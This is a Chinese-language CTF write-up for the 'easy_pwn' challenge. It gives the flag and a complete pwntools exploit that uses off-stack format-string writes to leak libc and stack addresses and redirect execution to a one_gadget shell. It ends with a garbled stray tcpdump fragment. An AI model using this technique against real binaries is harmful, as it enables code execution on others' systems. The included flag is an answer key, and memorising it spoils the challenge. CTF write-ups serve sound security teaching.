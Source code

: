 ```bash
- **题目名称：** easy_pwn
- **题目类型：** PWN
- **题目难度：**中等偏下
- **出题人：** she1p
- **考点：**

1. 修改_fini_array
2. 非栈上格式化字符串

- **描述：** 欢迎来到XSCTF SHOP
- **flag：** XSCTF{D0_Y0u_lik3_This_Chal1eng3}
- **Writeup：**

```python
#ubuntu22.04
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=process('./easy_pwn3')
#p=remote('',)
libc=ELF('./libc.so.6')
elf=ELF('./easy_pwn3')


main=0x401296

p.sendlineafter('do you want to shop?\n',b'yes')

def buy(payload):
    p.sendlineafter('What do you want to buy?\n',b'G')
    p.sendafter('but can we collect the goods to your home and leave your address conveniently.\n',payload)

one_gadget=[0x50a37,0xebcf1,0xebcf5,0xebcf8,0xebd52,0xebdaf,0xebdb3]

payload1=b'%150c%8$hhn-%11$p-%15$p'
buy(payload1)
p.recvuntil('-')
libc_base=int(p.recv(14),16)-0x29d90
success('libc_base:'+hex(libc_base))
p.recvuntil('-')
stack_addr=int(p.recv(14),16)-0x210
success('stack_addr:'+hex(stack_addr))
stack1=stack_addr%0x10000
success('stack1:'+hex(stack1))
#gdb.attach(p)
#pause()
payload2='%'+str(stack1)+'c%15$hn'+'%2c%33$hn'
buy(payload2)

p.sendlineafter('do you want to shop?\n',b'yes')
one1=(libc_base+one_gadget[0])%0x10000
success('one:'+hex(one1))
one2=((libc_base+one_gadget[0])>>16)%0x100
success('one2:'+hex(one2))
payload3='%'+str(one2)+'c%79$hhn%'+str(one1-one2)+'c%77$hn'
buy(payload3)
buy(b'a')
#gdb.attach(p)
#pause()

p.interactive()
```xxxxxxxxxx tcpdump -w helloworld.pcap -i eth0 port pub_portbash
```
